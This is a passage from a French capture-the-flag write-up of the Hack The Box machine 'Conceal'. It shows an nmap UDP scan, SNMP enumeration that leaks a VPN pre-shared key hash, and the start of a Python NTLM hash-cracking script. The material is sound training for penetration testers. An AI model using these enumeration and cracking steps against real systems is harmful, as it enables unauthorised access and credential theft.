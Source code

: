 Donc comme vous pouvez le voir il y a le port 161/UDP qui est ouvert nous cela correspond au protocole SNMP, donc essayons d'énumérer ça avec Nmap et de voir les informations nécessaires.

    root@Seyptoo:~/htb/box/Conceal# nmap -sU -sC -sV -p161 10.10.10.116

    Starting Nmap 7.01 ( https://nmap.org ) at 2019-05-17 20:11 CEST
    Nmap scan report for 10.10.10.116
    Host is up (0.051s latency).
    PORT    STATE SERVICE VERSION
    161/udp open  snmp    SNMPv1 server (public)
    [...SNIP...]

SNMP Enumeration
----
Donc nous allons essayer d'exécuter le programme snmpwalk et d'énumérer le service en question.

    root@Seyptoo:~/htb/box/Conceal# snmpwalk -c public -v 1 10.10.10.116
    [...SNIP...]
    iso.3.6.1.2.1.1.4.0 = STRING: "IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43"
    iso.3.6.1.2.1.1.5.0 = STRING: "Conceal"
    [...SNIP...]
    
Comme vous pouvez le voir il y a une adresse PSK, cette adresse va nous permettre beaucoup de choses, tout d'abord essayons de cracker le hash, donc le hash est du NTLM. Donc j'ai créé un script en Python pour cracker le hash en question.

    #coding:utf-8

    import sys
    import hashlib
    import binascii
    import threading
    import Queue
    import time

    class NTLM(threading.Thread):
        def __init__(self, system_threads=30):
            threading.Thread.__init__(self)
            self.threads = system_threads
            # Calling Thread variable.
            try:
                # We will test the arguments.
                # To handle incorrect errors.

                self.LIST = sys.argv[1]
                self.NTLM = sys.argv[2]

                # I create an exception for the error.
                # For the use of the program.
            except IndexError as e:
                sys.exit(e)
